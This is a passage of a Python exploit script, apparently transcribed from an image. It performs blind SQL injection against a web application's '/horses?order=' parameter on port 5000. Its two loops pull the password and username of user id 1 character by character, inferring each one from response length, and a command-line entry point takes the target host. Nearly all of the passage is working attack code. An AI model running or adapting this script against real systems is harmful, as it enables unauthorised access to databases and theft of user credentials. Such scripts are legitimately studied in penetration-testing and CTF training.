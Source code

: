```py
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    list = string.digits
    limit_inf = 1
    limit_sup = 1
    iterator = 0
    print("The password for the user id 1 is: ")
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "LIMIT+(CASE+WHEN+(SUBSTR((SELECT+password+FROM+users+WHERE+user_id=1)," + str(limit_inf) + "," + str(limit_sup) + "))='" + c + "'+THEN+1+ELSE+2+END)"
            url = url_true + payload
            res = requests.get(url, proxies=proxies)
            # TRUE boolean message
            if int(res.headers['Content-Length']) < int(1500):
                password.append(c)
                limit_inf = limit_inf + 1
                #limit_sup = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
                url = url_true
    password = ''.join(password)
    
# Function to extract username selected
def usernameExtractTimeBased(rhost):
    global password
    url_true = "http://%s" %rhost + ":5000/horses?order=1"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    list = string.ascii_letters
    limit_inf = 1
    limit_sup = 1
    iterator = 0
    print("The username for the user id 1 is...")
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "LIMIT+(CASE+WHEN+(SUBSTR((SELECT+username+FROM+users+WHERE+user_id=1)," + str(limit_inf) + "," + str(limit_sup) + "))='" + c + "'+THEN+1+ELSE+2+END)"
            url = url_true + payload
            res = requests.get(url, proxies=proxies)
            elapsed = res.elapsed.total_seconds()
            # TRUE boolean message
            if int(res.headers['Content-Length']) < int(1500):
                password.append(c)
                limit_inf = limit_inf + 1
                #limit_sup = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
                url = url_true
    password = ''.join(password)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
```